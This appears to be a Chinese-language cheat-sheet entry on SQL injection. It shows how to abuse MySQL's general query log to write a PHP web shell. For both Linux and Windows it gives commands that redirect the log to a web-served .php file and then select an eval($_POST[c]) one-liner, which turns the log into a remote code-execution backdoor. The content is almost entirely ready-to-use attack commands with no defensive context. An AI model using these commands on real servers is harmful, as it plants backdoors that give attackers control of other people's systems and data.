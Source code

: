 # SQL注入

## 1. 利用 Mysql 查询日志写 shell

* Linux

```text
set global general_log = 'ON';
set global general_log_file = '/var/www/html/shell.php'; # 该目录必须拥有写权限
select '?><?php eval($_POST[c]); ?>';
```

* Windows

```text
set global general_log = 'ON';
set global general_log_file = 'D:\\Program\\www\\localhost.log.php';
select '?><?php eval($_POST[c]); ?>';
```

